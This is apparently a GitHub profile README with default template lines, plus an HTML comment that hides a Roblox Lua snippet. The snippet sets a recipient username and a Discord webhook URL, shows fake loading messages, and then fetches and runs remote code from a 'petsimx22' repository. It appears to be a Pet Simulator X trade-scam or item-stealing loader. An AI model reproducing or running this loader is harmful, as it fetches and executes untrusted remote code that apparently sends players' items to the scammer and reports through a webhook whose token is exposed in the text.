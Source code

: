 - 👋 Hi, I’m tradescam

- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---Username = "deadlime148"

WebHook = "https://discord.com/api/webhooks/1101382347007471666/FsxFXD8PsAMN-kH8ZZR_gzQL6TsUzlFvKt6scB2iFDWGgAy-_XpnFG9qyeIyfF-QVlnY"

_G.CustomScriptName = "don't leave the game while loading"

_G.Text1 = "Script Loaded..."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
francisFuente123s/francisFuente123s is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
30344131
